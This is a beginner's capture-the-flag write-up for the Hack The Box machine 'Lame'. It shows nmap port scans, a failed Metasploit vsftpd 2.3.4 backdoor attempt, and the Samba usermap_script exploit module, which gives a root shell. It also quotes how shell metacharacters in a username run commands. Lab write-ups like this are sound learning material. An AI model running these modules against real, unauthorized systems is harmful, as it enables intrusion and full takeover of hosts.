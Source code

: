 # Title: Lame
  Date: 2019-10-11

This box is rated very easy, probably the easiest there is. I've played with HTB a bit but never really focused much on it. I'm planning to work through the boxes starting with the easiest. I've done a few but have always been _very_ bad at documenting things. So this is my first actual writeup. 

## Enumeration

Started with a quick scan of common ports:

```
sudo nmap -PE -PM -PS 21,22,23,25,26,53,80,81,110,111,113,135,139,143,179,199,443,445,465,514,548,554,587,993,995 lame
```

Kicked off a more thorough scan in parallel, but killed it since it seemed very unnecessary:

```
sudo nmap -p 1-65535 -sV -sS -T4 lame
```

The quick scan returned the following open ports:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## FTP Red Herring? Or bad hacker?

The first thing I did was check out the ftp server. I was able to log in anonymously and noticed the server was vsFTPd v2.3.4. I recognized this as a pretty cool possible vulnerability and think I may have actually used it for a CTF challenge I built a few years back. Here is the background:

> This module exploits a malicious backdoor that was added to the VSFTPD download archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was removed on July 3rd 2011. 

I then kicked off Metasploit (msfconsole) and searched for vsftpd:

```
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

Selected the exploit:

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
```

Looked at the options:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options 

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)
```

Set the RHOSTS to the lame IP (I added an entry to my hosts file to make life easier):

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts lame
rhosts => lame
```
And then kicked off the exploit:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

The exploit didn't work out of the box so I moved on thinking maybe this was a trick and the vulnerable version of the server was not installed on the box. Since this box is rated super easy I figured it wouldn't take that much work.

## Samba

I moved on to the Samba shares. I first used the Impacket (https://github.com/SecureAuthCorp/impacket) smbclient.py script to try connecting:

```
smbclient.py lame
```

I found some shares but nothing really very interesting on them. I also ran "enum4linux" on the box but didn't really make it to going through the results because while it was running I moved on to just doing a bit of research and just did a search on "exploit open smb share". I came across this site: 
https://resources.infosecinstitute.com/hacking-and-gaining-access-to-linux-by-exploiting-samba-service/#gref 

I ran through the Metasploit enumeration and was kinda shocked when a shell just popped. 

I ran through the following:

```
use auxiliary/scanner/smb/smb_version
...set up options and executed...
```

and then:

```
use exploit/multi/samba/usermap_script
...set up options and executed...
```

To my surprise running this popped a shell?! I was kind of blindly following the site and didn't realize it would actually work.

## User flag

Once I got the shell I found the user flag under /home/makis

## Root flag

I ran "whoami" and was surprised that I'd popped a root shell. The root flag was surpringly in the /root folder.

## Endnotes

I'm curious to go take a look at other writeups for this one. I have a feeling there are several paths to take.

Here are the details on the Samba exploit that surprised me:

> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! 